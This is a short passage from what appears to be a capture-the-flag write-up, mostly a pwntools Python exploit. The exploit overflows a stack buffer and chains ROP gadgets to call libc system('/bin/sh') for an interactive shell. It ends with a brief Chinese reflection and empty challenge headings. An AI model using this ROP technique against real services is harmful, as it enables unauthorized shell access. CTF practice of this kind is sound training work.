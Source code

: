 ```python
binsh = base + 0x00000000001d8678

system = base + libc.symbols['system']

  

p.sendlineafter(b'option: ', b'5')

p.recvuntil(b'Try to say something: ')

  

payload = flat([

b'a' * 0x48,

pop_rdi,

binsh,

pop_rsi,

0,

pop_rdx_rbx,

0,

0,

system

])

  

p.sendline(payload)

  

p.interactive()
```
![[Pasted image 20241128165830.png]]
一道简单的题，反编译后看着唬人，实际简单，需要提高反编译后的提取信息能力。
### EldenRing(复现)
### No Output(复现)
### Simple_Shellcode(复现)